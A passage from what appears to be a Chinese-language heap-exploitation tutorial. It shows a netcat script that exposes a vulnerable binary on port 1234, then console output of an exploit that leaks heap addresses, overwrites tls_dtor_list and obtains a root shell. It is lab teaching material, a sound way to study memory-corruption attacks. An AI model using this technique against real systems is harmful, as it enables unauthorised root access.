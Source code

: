 ```
#vuln.sh
#!/bin/sh
nc_process_id=$(pidof nc)
while :
do
 if [[ -z $nc_process_id ]]; then
 echo "(Re)starting nc..."
 nc -l -p 1234 -c "./vuln sploitfun"
 else
 echo "nc is running..."
 fi
done
```

执行上述利用代码会给我们 root shell。好的。

```
Shell-1$./vuln.sh
Shell-2$python exp.py
...
** Leaked heap addresses : [0x889d010] **
** Constructing fake chunk to overwrite tls_dtor_list**
** Successfull tls_dtor_list overwrite gives us shell!!**
*** Connection closed by remote host ***
** Leaked heap addresses : [0x895d010] **
** Constructing fake chunk to overwrite tls_dtor_list**
** Successfull tls_dtor_list overwrite gives us shell!!**
*** Connection closed by remote host ***
id
uid=0(root) gid=1000(bala) groups=0(root),10(wheel),1000(bala) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
exit
** Leaked heap addresses : [0x890c010] **
** Constructing fake chunk to overwrite tls_dtor_list**
** Successfull tls_dtor_list overwrite gives us shell!!**
*** Connection closed by remote host ***
...
$
```

参考：

[Revisiting Defcon CTF Shitsco Use-After-Free Vulnerability – Remote Code Execution](http://v0ids3curity.blogspot.in/2015/02/revisiting-defcon-ctf-shitsco-use-after.html)